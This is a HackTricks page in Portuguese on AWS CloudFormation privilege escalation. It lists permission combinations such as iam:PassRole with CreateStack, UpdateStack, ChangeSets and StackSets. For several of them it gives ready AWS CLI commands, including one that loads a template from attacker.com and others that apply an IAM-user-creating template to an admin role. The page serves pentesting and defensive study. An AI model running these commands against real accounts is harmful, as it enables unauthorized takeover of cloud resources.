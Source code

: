 # AWS - Escalação de Privilégios do Cloudformation

<details>

<summary><strong>Aprenda hacking na AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>

## cloudformation

Para mais informações sobre o cloudformation, consulte:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Um atacante com essas permissões **pode escalar privilégios** criando uma **pilha CloudFormation** com um modelo personalizado, hospedado em seu servidor, para **executar ações sob as permissões de uma função especificada:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Na página a seguir, você tem um **exemplo de exploração** com a permissão adicional **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Impacto Potencial:** Escalação de privilégios para a função de serviço do CloudFormation especificada.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

Neste caso, você pode **abusar de uma pilha de CloudFormation existente** para atualizá-la e escalar privilégios, como no cenário anterior:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
A permissão `cloudformation:SetStackPolicy` pode ser usada para **conceder a si mesmo permissão `UpdateStack`** sobre um stack e realizar o ataque.

**Impacto Potencial:** Escalação de privilégios para a função de serviço do CloudFormation especificada.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Se você tiver essa permissão mas **não tiver `iam:PassRole`**, ainda poderá **atualizar os stacks** usados e abusar dos **IAM Roles que já estão anexados**. Verifique a seção anterior para um exemplo de exploit (apenas não indique nenhum papel na atualização).

A permissão `cloudformation:SetStackPolicy` pode ser usada para **conceder a si mesmo permissão `UpdateStack`** sobre um stack e realizar o ataque.

**Impacto Potencial:** Escalação de privilégios para a função de serviço do CloudFormation já anexada.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Um atacante com permissões para **passar um papel e criar e executar um ChangeSet** pode **criar/atualizar um novo stack do CloudFormation abusar das funções de serviço do CloudFormation** da mesma forma que com o CreateStack ou UpdateStack.

O exploit a seguir é uma **variação do** [**exploit CreateStack**](./#iam-passrole-cloudformation-createstack) usando as **permissões ChangeSet** para criar um stack.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
A permissão `cloudformation:SetStackPolicy` pode ser usada para **conceder a si mesmo permissões de `ChangeSet`** sobre um stack e realizar o ataque.

**Impacto Potencial:** Escalação de privilégios para funções de serviço do CloudFormation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Este método é semelhante ao anterior, sem a necessidade de passar **funções IAM**, então você pode apenas **abusar das que já estão anexadas**, basta modificar o parâmetro:
```
--change-set-type UPDATE
```
**Impacto Potencial:** Privesc para a função de serviço do cloudformation já anexada.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Um atacante poderia abusar dessas permissões para criar/atualizar StackSets e abusar de funções de cloudformation arbitrárias.

**Impacto Potencial:** Privesc para funções de serviço do cloudformation.

### `cloudformation:UpdateStackSet`

Um atacante poderia abusar dessa permissão sem a permissão passRole para atualizar StackSets e abusar das funções de cloudformation anexadas.

**Impacto Potencial:** Privesc para as funções de cloudformation anexadas.

## Referências

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

